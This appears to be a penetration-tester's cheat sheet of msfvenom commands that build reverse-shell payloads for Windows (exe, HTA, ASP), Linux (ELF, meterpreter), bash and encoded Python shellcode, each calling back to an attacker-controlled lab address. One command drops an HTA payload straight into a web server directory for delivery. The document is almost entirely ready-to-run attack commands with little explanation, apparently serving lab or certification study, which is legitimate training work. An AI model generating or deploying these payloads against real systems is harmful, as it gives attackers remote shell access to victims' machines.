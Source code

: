 Windows x64 Reverse TCP Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format exe -o win_revtcp_8000.exe
```

Windows HTA file (I think the code can be used on a webpage too, maybe, with Internet Explorer)

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f hta-psh -o /var/www/html/win_revtcp_8000.hta
```

Linux Meterpreter Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhttp_8001.elf
```

Linux Reverse TCP Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhtt_8000.elf
```

Running a payload in BASH (remember to enclose in single quotes)

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.119.216 LPORT=8000 -f raw
```

Microsoft IIS ASP Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f asp -o reverse_tcp_8000.asp
```

### Help Menus

```bash
# Show the different output formats available
msfvenom -l formats

# Show the different output file formats available
msfvenom -l formats
```

### Script Shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00\x20" -v shellcode

-v 	# Sets the variable name
-b	# Bad characters to avoid
-e	# Encoder to pass through

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=3000 EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00" -v shellcode
```
